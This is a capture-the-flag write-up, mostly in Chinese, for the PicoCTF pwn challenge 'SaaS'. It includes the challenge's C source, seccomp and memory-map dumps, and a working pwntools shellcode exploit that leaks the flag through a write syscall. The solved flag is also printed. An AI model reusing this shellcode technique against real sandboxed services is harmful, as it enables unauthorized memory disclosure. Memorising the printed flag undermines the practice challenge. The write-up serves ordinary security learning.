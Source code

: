 ```yaml
---
title: PicoCTF - SaaS
tags: [PicoCTF, CTF, PWN]

category: "Security/Practice/PicoCTF/PWN"
---
```


# PicoCTF - SaaS
<!-- more -->

## Background
seccomp-tool

## Source code
:::spoiler Source Code
```cpp=
#include <errno.h>
#include <error.h>
#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <unistd.h>

#define SIZE 0x100

// http://shell-storm.org/online/Online-Assembler-and-Disassembler/?inst=xor+rax%2C+rax%0D%0Amov+rdi%2C+rsp%0D%0Aand+rdi%2C+0xfffffffffffff000%0D%0Asub+rdi%2C+0x2000%0D%0Amov+rcx%2C+0x600%0D%0Arep+stosq%0D%0Axor+rbx%2C+rbx%0D%0Axor+rcx%2C+rcx%0D%0Axor+rdx%2C+rdx%0D%0Axor+rsp%2C+rsp%0D%0Axor+rbp%2C+rbp%0D%0Axor+rsi%2C+rsi%0D%0Axor+rdi%2C+rdi%0D%0Axor+r8%2C+r8%0D%0Axor+r9%2C+r9%0D%0Axor+r10%2C+r10%0D%0Axor+r11%2C+r11%0D%0Axor+r12%2C+r12%0D%0Axor+r13%2C+r13%0D%0Axor+r14%2C+r14%0D%0Axor+r15%2C+r15%0D%0A&arch=x86-64&as_format=inline#assembly
#define HEADER "\x48\x31\xc0\x48\x89\xe7\x48\x81\xe7\x00\xf0\xff\xff\x48\x81\xef\x00\x20\x00\x00\x48\xc7\xc1\x00\x06\x00\x00\xf3\x48\xab\x48\x31\xdb\x48\x31\xc9\x48\x31\xd2\x48\x31\xe4\x48\x31\xed\x48\x31\xf6\x48\x31\xff\x4d\x31\xc0\x4d\x31\xc9\x4d\x31\xd2\x4d\x31\xdb\x4d\x31\xe4\x4d\x31\xed\x4d\x31\xf6\x4d\x31\xff"

#define FLAG_SIZE 64

char flag[FLAG_SIZE];

void load_flag() {
  int fd;
  if ((fd = open("flag.txt", O_RDONLY)) == -1)
    error(EXIT_FAILURE, errno, "open flag");
  if (read(fd, flag, FLAG_SIZE) == -1)
    error(EXIT_FAILURE, errno, "read flag");
  if (close(fd) == -1)
    error(EXIT_FAILURE, errno, "close flag");
}

void setup() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_KILL);
  int ret = 0;
  if (ctx != NULL) {
    ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 1,
      SCMP_A0(SCMP_CMP_EQ, STDOUT_FILENO));
    ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
    ret |= seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
    ret |= seccomp_load(ctx);
  }
  seccomp_release(ctx);
  if (ctx == NULL || ret)
    error(EXIT_FAILURE, 0, "seccomp");
}

int main()
{
  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  load_flag();
  puts("Welcome to Shellcode as a Service!");

  void* addr = mmap(NULL, 0x1000, PROT_EXEC | PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANON, -1, 0);
  memcpy(addr, HEADER, sizeof(HEADER));
  read(0, addr + sizeof(HEADER) - 1, SIZE);

  setup();
  goto *addr;
}

```
:::

## Recon
這題算簡單，很適合新手打shell code，但不知道為啥很少人解，和之前計安的某一題很像但忘記在哪邊了，也有可能是在EOF的時候打的，關於seccomp可以看這篇[^seccomp-tools-note]
```bash
$ file chall
chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=0c0d78f23470e4613121a0d3bdc1cd5e43e49b32, not stripped
$ checksec chall
[*] '/mnt/d/NTU/CTF/PicoCTF/PWN/SaaS/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
$ seccomp-tools dump ./chall
Welcome to Shellcode as a Service!
123
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x00 0x0b 0xc000003e  if (A != ARCH_X86_64) goto 0013
 0002: 0x20 0x00 0x00 0x00000000  A = sys_number
 0003: 0x35 0x00 0x01 0x40000000  if (A < 0x40000000) goto 0005
 0004: 0x15 0x00 0x08 0xffffffff  if (A != 0xffffffff) goto 0013
 0005: 0x15 0x06 0x00 0x0000003c  if (A == exit) goto 0012
 0006: 0x15 0x05 0x00 0x000000e7  if (A == exit_group) goto 0012
 0007: 0x15 0x00 0x05 0x00000001  if (A != write) goto 0013
 0008: 0x20 0x00 0x00 0x00000014  A = fd >> 32 # write(fd, buf, count)
 0009: 0x15 0x00 0x03 0x00000000  if (A != 0x0) goto 0013
 0010: 0x20 0x00 0x00 0x00000010  A = fd # write(fd, buf, count)
 0011: 0x15 0x00 0x01 0x00000001  if (A != 0x1) goto 0013
 0012: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0013: 0x06 0x00 0x00 0x00000000  return KILL
```
1. 觀察source code發現有設定seccomp的保護，只開放write和exit，但在輸入之前已經先讀了flag，此時就可以直接想辦法call syswrite把東西印出來就完事了
2. 要注意libc的版本，我的local端原本是2.31但不知道為啥變成2.35，所以又花了一點時間用VM才解出來
3. 這一題難的地方在於一開始有一串shell code(HEADER)，經過online tool[^online-tool-assemble]可以知道它就是把stack上和register的東西全部清空，所以如果要找到flag所在的位址就需要撈一下memory，我的做法是直接把memory dump下來，然後string search(記得是little endian)，然後用offset算他和rip之間的相對位置

## Exploit - seccomp-tools / syswrite
算offset是這一題最煩的地方，以我的例子來說(記憶體區段如下)，flag是放在==0x000055e109602060==的地方，我執行shell code的地方是在==0x7fbb78c21000==，所以我先把0x00007f1d391e5000~0x00007f1d39215000的東西dump下來，發現在0x2e590的地方存的是==0x55e109400448==，和原本的0x000055e109602060差了一點，所以我先把後1.5bytes變成0(and operator)，然後加上offset(0x202060)，在依序把其他必要的register擺好就可以call function了
![](https://hackmd.io/_uploads/r1FxFRy23.png)


:::spoiler
```
0x000055e109400000 0x000055e109402000 0x0000000000000000 r-x /home/sbk/Downloads/SaaS/chall
0x000055e109601000 0x000055e109602000 0x0000000000001000 r-- /home/sbk/Downloads/SaaS/chall
0x000055e109602000 0x000055e109603000 0x0000000000002000 rw- /home/sbk/Downloads/SaaS/chall
0x00007fbb789cb000 0x00007fbb789ce000 0x0000000000000000 rw- 
0x00007fbb789ce000 0x00007fbb789f0000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fbb789f0000 0x00007fbb78b68000 0x0000000000022000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fbb78b68000 0x00007fbb78bb6000 0x000000000019a000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fbb78bb6000 0x00007fbb78bba000 0x00000000001e7000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fbb78bba000 0x00007fbb78bbc000 0x00000000001eb000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x00007fbb78bbc000 0x00007fbb78bc0000 0x0000000000000000 rw- 
0x00007fbb78bc0000 0x00007fbb78bc2000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x00007fbb78bc2000 0x00007fbb78bd1000 0x0000000000002000 r-x /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x00007fbb78bd1000 0x00007fbb78bdf000 0x0000000000011000 r-- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x00007fbb78bdf000 0x00007fbb78be0000 0x000000000001f000 --- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x00007fbb78be0000 0x00007fbb78be1000 0x000000000001f000 r-- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x00007fbb78be1000 0x00007fbb78be2000 0x0000000000020000 rw- /usr/lib/x86_64-linux-gnu/libseccomp.so.2.5.1
0x00007fbb78be2000 0x00007fbb78be4000 0x0000000000000000 rw- 
0x00007fbb78bf5000 0x00007fbb78bf6000 0x0000000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fbb78bf6000 0x00007fbb78c19000 0x0000000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fbb78c19000 0x00007fbb78c21000 0x0000000000024000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fbb78c21000 0x00007fbb78c22000 0x0000000000000000 rwx 
0x00007fbb78c22000 0x00007fbb78c23000 0x000000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fbb78c23000 0x00007fbb78c24000 0x000000000002d000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x00007fbb78c24000 0x00007fbb78c25000 0x0000000000000000 rw- 
0x00007ffe014db000 0x00007ffe014fd000 0x0000000000000000 rw- [stack]
0x00007ffe0150d000 0x00007ffe01511000 0x0000000000000000 r-- [vvar]
0x00007ffe01511000 0x00007ffe01513000 0x0000000000000000 r-x [vdso]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 --x [vsyscall]

```
:::
```python!
from pwn import *

# r = process('./chall')
r = remote('mars.picoctf.net', 31021)
context.arch = 'amd64'
r.recvline()

# exe = ELF('./chall')

payload = asm('''
    lea rax, [rip-0x52-0x2c000+0x2e9f0]
    mov rsi, QWORD PTR [rax]
    and rsi, 0xfffffffffffff000
    add rsi, 0x202060
    mov rdi, 1
    mov rdx, 0x40
    mov rax, 1
    syscall
''')
# raw_input()
r.sendline(payload)


r.interactive()
```

```bash!
$ python exp.py
[+] Opening connection to mars.picoctf.net on port 31021: Done
[*] Switching to interactive mode
picoCTF{f0ll0w_th3_m4p_t0_g3t_th3_fl4g}
\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```

Flag: `picoCTF{f0ll0w_th3_m4p_t0_g3t_th3_fl4g}`

## Reference
[^seccomp-tools-note]:[Simple PWN - 0x010(seccomp/Lab - rop2win)](https://hackmd.io/@SBK6401/H1NX6Bloj)
[^online-tool-assemble]:[Online x86 / x64 Assembler and Disassembler](https://defuse.ca/online-x86-assembler.htm)